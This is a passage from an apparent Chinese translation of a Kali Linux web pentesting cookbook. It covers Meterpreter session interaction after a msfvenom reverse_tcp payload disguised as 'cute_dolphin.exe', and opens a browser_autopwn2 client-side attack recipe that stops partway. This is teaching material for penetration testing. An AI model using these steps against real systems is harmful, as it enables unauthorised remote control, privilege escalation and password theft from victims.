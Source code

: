     ![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-web-pentest-cb/img/9-3-2.jpg)
    
9.  如果我们打算和会话交互，可以使用`-i`选项，带有会话的编号：

    ```
    sessions -i 1 
    ```
    
0.  我们会看到 meterpreter 的提示符。现在，我们可以请求被入侵系统的信息。

    ```
    sysinfo
    ```
    
    ![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-web-pentest-cb/img/9-3-3.jpg)
    
1.  或者执行系统 shell。

    ```
    shell
    ```
    
    ![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-web-pentest-cb/img/9-3-4.jpg)

### 工作原理

Msfvenom 帮助的我们从 Metasploit 大量列表中创建载荷，并且将它们集成到许多语言的源代码中，或者创建脚本和可执行文件。就像我们在这个秘籍所做的那样。我们这里所使用的参数是所使用的载荷（`windows/ meterpreter/reverse_tcp`）、连接回来所需的主机和端口（LHOST 和 RPORT），以及输出格式（`-f exe`）。将标准输出重定向到文件来将它保存为` cute_dolphin.exe`。

Metasploit 的 exploit/multi/handler 是个载荷处理器，这里我们将其用于监听连接。在连接建立之后，它执行了 meterpreter 载荷。

Meterpreter 是增强型的 Metasploit shell。它包含用于嗅探受害者网络，用于将其作为入口来访问本地网络，或者用于执行权限提升和密码提取的模块，以及其它渗透测试中的实用工具。

## 9.4 使用 Metasploit 的 browser_autpwn2 攻击客户端

Metasploit 框架包含客户端利用的庞大集合，许多都为利用浏览器中的已知漏洞而设计。其中有一个模块能够检测客户端所使用的浏览器版本，并挑选最好的利用工具来触发漏洞。这个模块是 browser_autpwn 和 browser_autpwn2，后者是最新版本。

在这个秘籍中，我们会使用 browser_autpwn2 执行攻击，并将其配置好来让目标访问。

### 操作步骤

1.  启动 MSFCONSOLE。

2.  我们会使用 browser_autpwn2 （BAP2）。

    ```
    use auxiliary/server/browser_autopwn2 
    ```

3.  让我们看一看它拥有什么配置项。

    ```
    show options
    ```
    